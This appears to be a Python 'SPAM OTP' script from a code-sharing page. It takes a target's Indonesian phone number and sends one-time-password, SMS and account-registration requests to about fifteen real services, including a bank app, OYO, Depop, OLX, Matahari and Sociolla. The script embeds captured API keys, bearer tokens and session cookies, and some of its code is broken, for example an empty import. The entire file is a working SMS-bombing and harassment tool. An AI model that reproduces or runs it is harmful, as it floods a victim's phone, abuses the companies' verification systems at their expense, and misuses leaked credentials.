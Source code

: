 # wa
Buat uji coba
import
print ("\033[00m")
def clear():
    os.system("clear")
def balik():
    f=input("\t[enter to back]")
    if f == "":
       os.system("python spam.py")
    else:
       sys.exit()
def baner():
    print ('''
\tALL SPAM OTP
\t------------
\nCreator: ululcakep
Youtube: ulul channel
Github : github.com/Jancok
==========================================''')
def kata(s):
    for c in s + "\n":
        sys.stdout.write(c)
        sys.stdout.flush()
        time.sleep(1./100)

def jenius():
    ua={
    "accept": "*/*",
    "btpn-apikey": "f73eb34d-5bf3-42c5-b76e-271448c2e87d",
    "version": "2.36.1-7565",
    "accept-language": "id",
    "x-request-id": "d7ba0ec4-ebad-4afd-ab12-62ce331379be",
    "Content-Type": "application/json",
    "Host": "api.btpn.com",
    "Connection": "Keep-Alive",
    "Accept-Encoding": "gzip",
    "Cookie": "c6bc80518877dd97cd71fa6f90ea6a0a=24058b87eb5dac1ac1744de9babd1607",
    "User-Agent": "okhttp/3.12.1"
    }
    dat=json.dumps({"query":"mutation registerPhone($phone: String!, $language: Language!) {\n  registerPhone(input: {phone: $phone, language: $language}) {\n    authId\n    tokenId\n    __typename\n  }\n}\n","variables":{"phone":w,"language":"id"},"operationName":"registerPhone"})
    r=requests.post("https://api.btpn.com/jenius", data=dat, headers=ua).text
def rupa():
     ua={
     "Host": "wapi.ruparupa.com",
     "Connection": "keep-alive",
     "Authorization": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1dWlkIjoiOGZlY2VjZmYtZTQ1Zi00MTVmLWI2M2UtMmJiMzUyZmQ2NzhkIiwiaWF0IjoxNTkzMDIyNDkyLCJpc3MiOiJ3YXBpLnJ1cGFydXBhIn0.fETKXQ0KyZdksWWsjkRpjiKLrJtZWmtogKyePycoF0E",
     "Accept": "application/json",
     "Content-Type": "application/json",
     "X-Company-Name": "odi",
     "User-Agent": "Mozilla/5.0 (Linux; Android 10; SM-A107F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.101 Mobile Safari/537.36",
     "user-platform": "mobile",
     "X-Frontend-Type": "mobile",
     "Origin": "https://m.ruparupa.com",
     "Referer": "https://m.ruparupa.com/verification?page=otp-choices",
     "Accept-Encoding": "gzip, deflate, br",
     "Accept-Language": "id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7"
     }
     dat=json.dumps({"phone":no,"action":"register","channel":"chat","email":"","customer_id":"0","is_resend":0})
     r = requests.post("https://wapi.ruparupa.com/auth/generate-otp", data=dat, headers=ua).text
def mapclub():
    ua={
    "Host": "cmsapi.mapclub.com",
    "Connection": "keep-alive",
    "Accept": "application/json, text/plain, */*",
    "User-Agent": "Mozilla/5.0 (Linux; Android 10; SM-A107F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.101 Mobile Safari/537.36",
    "content-type": "application/json",
    "Origin": "https://www.mapclub.com",
    "Referer": "https://www.mapclub.com/en/user/signup",
    "Accept-Encoding": "gzip, deflate, br",
    "Accept-Language": "id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7"
    }
    dat=json.dumps({"phone":no})
    r = requests.post("https://cmsapi.mapclub.com/api/signup-otp", data=dat, headers=ua).text
def oyo():
    ua={
    "Host": "identity-gateway.oyorooms.com",
    "consumer_host": "https://www.oyorooms.com",
    "accept-language": "id",
    "access_token": "SFI4TER1WVRTakRUenYtalpLb0w6VnhrNGVLUVlBTE5TcUFVZFpBSnc=",
    "User-Agent": "Mozilla/5.0 (Linux; Android 10; SM-A107F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Mobile Safari/537.36",
    "Content-Type": "application/json",
    "accept": "*/*",
    "origin": "https://www.oyorooms.com",
    "referer": "https://www.oyorooms.com/login",
    "Accept-Encoding": "gzip, deflate, br",
    }
    dat=json.dumps({"phone":c,"country_code":"+62","country_iso_code":"ID","nod":"4","send_otp":"true","devise_role":"Consumer_Guest"})
    r = requests.post("https://identity-gateway.oyorooms.com/identity/api/v1/otp/generate_by_phone?locale=id", data=dat, headers=ua).text
def depop():
    ua={
    "Host": "webapi.depop.com",
    "accept": "application/json, text/plain, */*",
    "User-Agent": "Mozilla/5.0 (Linux; Android 10; SM-A107F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.101 Mobile Safari/537.36",
    "Content-Type": "application/json",
    "Accept-Encoding": "gzip, deflate, br",
    "Accept-Language": "id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7",
    }
    dat=json.dumps({"phone_number":no,"country_code":"ID"})
    r = requests.put("https://webapi.depop.com/api/auth/v1/verify/phone", data=dat, headers=ua)
def soplai():
    ua={
    "Host": "api.sooplai.com",
    "accept": "application/json, text/plain, */*",
    "User-Agent": "Mozilla/5.0 (Linux; Android 10; SM-A107F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Mobile Safari/537.36",
    "Content-Type": "application/json",
    "origin": "https://www.sooplai.com",
    "referer": "https://www.sooplai.com/register",
    "Accept-Encoding": "gzip, deflate, br",
    "Accept-Language": "id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7",
    }
    dat=json.dumps({"phone":no})
    r = requests.post("https://api.sooplai.com/customer/register/otp/request", data=dat, headers=ua)
def call():
    head = {
    "X-Requested-With": "XMLHttpRequest",
    "User-Agent": "Mozilla/5.0 (Linux; Android 9; SM-A107F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.162 Mobile Safari/537.36",
    "Content-Type":" application/x-www-form-urlencoded; charset=UTF-8",
    "Content-Type": "application/json",
    "Origin": "https://id.jagreward.com",
    "Referer": "https://id.jagreward.com/member/register/",
    "Accept-Encoding": "gzip, deflate, br",
    "Accept-Language": "id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7",
    "__cfduid": "d4de1e7ea2ced09ecde54a568af1ac50b1584709816",
    "_ga": "GA1.2.2037151396.1584709855",
    "PHPSESSID": "n88pmtvvsdpf25898a9jeqbggc",
    "DAPROPS": "sjs.webGlRenderer:PowerVR Rogue GE8320|bjs.accessDom:1|bcookieSupport:1|bcss.animations:1|bcss.columns:1|bcss.transforms:1|bcss.transitions:1|sdevicePixelRatio:1.75|idisplayColorDepth:24|bflashCapable:0|bhtml.audio:1|bhtml.canvas:1|bhtml.inlinesvg:1|bhtml.svg:1|bhtml.video:1|bjs.applicationCache:1|bjs.deviceMotion:1|bjs.deviceOrientation:0|bjs.geoLocation:1|bjs.indexedDB:1|bjs.json:1|bjs.localStorage:1|bjs.modifyCss:1|bjs.modifyDom:1|bjs.querySelector:1|bjs.sessionStorage:1|bjs.supportBasicJavaScript:1|bjs.supportConsoleLog:1|bjs.supportEventListener:1|bjs.supportEvents:1|bjs.touchEvents:1|bjs.webGl:1|bjs.webSockets:1|bjs.webSqlDatabase:1|bjs.webWorkers:1|bjs.xhr:1|iorientation:0|buserMedia:1|bjs.battery:0",
    }
    r = requests.get("https://id.jagreward.com/member/verify-mobile/"+c+"/", headers=head)
def call2():
    ua={
    "Content-Type": "application/json",
    "Host": "srv3.sampingan.co.id",
    "Connection": "Keep-Alive",
    "Accept-Encoding": "gzip",
    "User-Agent": "okhttp/4.4.0"
    }
    dat=json.dumps({"countryCode":"+62","phoneNumber":c})
    r=requests.post("https://srv3.sampingan.co.id/auth/generate-otp", data=dat, headers=ua)
def alodoc():
    req=requests.post("https://nuubi.herokuapp.com/api/spam/alodok", data={"number":no}).text
def olx():
    req=requests.post("https://www.olx.co.id/api/auth/authenticate", json={"grantType":"phone","phone":w,"language":"id"}).json()
def matahari():
     heder = {'Host': 'thor.matahari.com',
              'content-length': '230',
              'modulecode': 'MR',
              'origin': 'https://www.matahari.com',
              'authorization': 'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJtb2R1bGVDb2RlIjoiTVIiLCJ1c2VyVHlwZSI6IjEiLCJleHAiOjE1NDM2NjA5MDYsInVzZXJOYW1lIjoiS0Zpb2ViMWhveU9FRDBERWQiLCJ1c2VySWQiOiJwcm9kdWN0aW9uNDYxOTAyNjQ0NSIsImp0aSI6IjFmMjI3NzE5LTY4OTMtNDhjYy1iNmQzLWY2OTkzMWMzMDIwYSIsImlhdCI6MTU0MzY1NzMwNn0.6XdrUX9QzD0Ld2eOJep7QnSwVjfFyjq-v7P4w0lGG9M',
              'content-type': 'application/json',
              'accept': 'application/json, text/plain, */*',
              'clientid': 'mds_mweb',
              'user-agent': 'Mozilla/5.0 (Linux; Android 8.1.0; Redmi 5A) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.99 Mobile Safari/537.36',
              'sessionid': '1595084426451',
              'save-data': 'on',
              'referer': 'https://www.matahari.com/register',
              'accept-encoding': 'gzip, deflate, br',
              'accept-language': 'id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7,ms;q=0.6'}

     data = {'emailAddress': 'noobie@mail.com',
             'firstName': 'Noobie',
             'lastName': 'Gans',
             'mobileNumber': no,
             'mccCardNumber': '',
             'password': 'asecc123',
             'referralCode': '',
             'dateOfBirth': '09-05-1993',
             'gender': 'Male',
             'registrationType': 'N'}
     sec = requests.post('https://thor.matahari.com/MatahariMobileAPI/register', headers=heder, json=data)
def socil():
    headreg={
    "Host": "soco-api.sociolla.com",
    "Connection": "keep-alive",
    "Sec-Fetch-Mode": "cors",
    "Origin": "https://www.sociolla.com",
    "User-Agent": "Mozilla/5.0 (Linux; Android 7.0; Redmi Note 4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.116 Mobile Safari/537.36 EdgA/45.06.4.5042",
    "Content-Type": "application/json;charset\u003dUTF-8",
    "Accept": "application/json, text/plain, */*",
    "session_id": "c970c955-79d1-45fd-840c-9082650a7a89",
    "SOC-PLATFORM": "sociolla-web-mobile",
    "Sec-Fetch-Site": "same-site",
    "Referer": "https://www.sociolla.com/",
    "Accept-Encoding": "gzip, deflate, br",
    "Accept-Language": "id-ID,id;q\u003d0.9,en-US;q\u003d0.8,en;q\u003d0.7",
    }

    ses=requests.Session()
    reg=ses.post("https://soco-api.sociolla.com/auth/register",json={"acquisition_source":"sociolla-web-mobile","email":f"noobie{rg(9999)}@mail.com","user_name":f"noobiegans{rg(9999)}","password":f"noobie{rg(9999)}","first_name":f"Noobie{rg(999)}","last_name":f"Gans{rg(999)}","gender":"Male","salute":"Mr","phone_no":no}, headers=headreg)
    token=reg.json()['data']['token']
    headotp={
    "Host": "soco-api.sociolla.com",
    "Connection": "keep-alive",
    "Sec-Fetch-Mode": "cors",
    "Origin": "https://www.sociolla.com",
    "Authorization": f"Bearer {token}",
    "Content-Type": "application/json;charset\u003dUTF-8",
    "Accept": "application/json, text/plain, */*",
    "session_id": "c970c955-79d1-45fd-840c-9082650a7a89",
    "SOC-PLATFORM": "sociolla-web-mobile",
    "User-Agent": "Mozilla/5.0 (Linux; Android 7.0; Redmi Note 4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.116 Mobile Safari/537.36 EdgA/45.06.4.5042",
    "Sec-Fetch-Site": "same-site",
    "Referer": "https://www.sociolla.com/",
    "Accept-Encoding": "gzip, deflate, br",
    "Accept-Language": "id-ID,id;q\u003d0.9,en-US;q\u003d0.8,en;q\u003d0.7",
    }
    rotp=ses.post("https://soco-api.sociolla.com/auth/otp/code", json={"mode":"sms","entity":"phone_no"}, headers=headotp).json()
def klik():
    dat={'number':no}
    r=requests.post("https://nuubi.herokuapp.com/api/spam/klikdok", data=dat)
def indo():
    ua={
    "Host": "account-api-v1.klikindomaret.com",
    "user-agent": "Mozilla/5.0 (Linux; Android 10; SM-A107F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Mobile Safari/537.36",
    "content-type": "application/json",
    "accept": "*/*",
    "origin": "https://account.klikindomaret.com",
    "referer": "https://account.klikindomaret.com/SMSVerification?nohp="+no+"&type=register",
    "accept-encoding": "gzip, deflate, br",
    "accept-language": "id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7"}
    r=requests.get("https://account-api-v1.klikindomaret.com/api/PreRegistration/SendOTPSMS?NoHP="+no, headers=ua).text
def wa2():
    name="Danz"+str(random.randrange(11,99999))
    pas="termux"+str(random.randrange(111,999))
    ua={
    "Host": "qtva.id",
    "Connection": "keep-alive",
    "Accept": "text/html, */*; q=0.01",
    "X-Requested-With": "XMLHttpRequest",
    "User-Agent": "Mozilla/5.0 (Linux; Android 10; SM-A107F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Mobile Safari/537.36",
    "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
    "Origin": "https://qtva.id",
    "Referer": "https://qtva.id/page/register/siswa",
    "Accept-Encoding": "gzip, deflate, br",
    "Accept-Language": "id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7",
    "Cookie": "PHPSESSID=7pf5ve6qvjlaeq8lv6ce91mbr4; AWSELB=6FCBA14B143B763E16068AD74D58AA579D9D142E7151220D3054E791C33C7FBA3884A9AF7839AD1DD49FFC6622C3A0FA538D30CDE7A17FB6AE724592130CC6587B0B6D0372; AWSELBCORS=6FCBA14B143B763E16068AD74D58AA579D9D142E7151220D3054E791C33C7FBA3884A9AF7839AD1DD49FFC6622C3A0FA538D30CDE7A17FB6AE724592130CC6587B0B6D0372; _ga=GA1.2.232839318.1597753085; _gid=GA1.2.158794496.1597753085; _gat=1"}
    dat={
    "namaDepan":name,
    "emailNope":no,
    "password":pas,
    "konfirmasiPass":pas
    }
    r=requests.post("https://qtva.id/page/frames.php?f=eVBDUVU0NE1DTStQTmgvallDaTA0QT09&p=RUtYZFBydUdXTmVWMUtnc3M1ZmtnVFpMSXRxTWlvQUduaTR6VFZzRk00UT0=&hc=bmFSencyM2FmUWxmckV4Y0pXdEVOQ1pYZW5pY0pXSlBENHZSaCtJNmtTSnR0SHJWeEJaOUhWZHVSUHpRcXhWTg==", data=dat, headers=ua).text
if __name__=="__main__":
     try:
          clear()
          baner()
          hh="+62"
          no=input("[+]Phone Number: ")
          c=no[1:12]
          w=hh+c 
          kata("Waiting....!!")
          jenius()
          oyo()
          mapclub()
          call()
          time.sleep(2)
          soplai()
          depop()
          rupa()
          matahari()
          socil()
          indo()
          olx()
          call2()
          time.sleep(2)
          alodoc()
          klik()
          wa2()
          time.sleep(2)
          kata("[•]Done..")
          balik()
     except KeyError:
             sys.exit()
     except KeyboardInterrupt:
             sys.exit()
     except requests.exceptions.ConnectionError:
             sys.exit('connection error!')
     except TypeError:
             balik()
     except ValueError:
             balik()
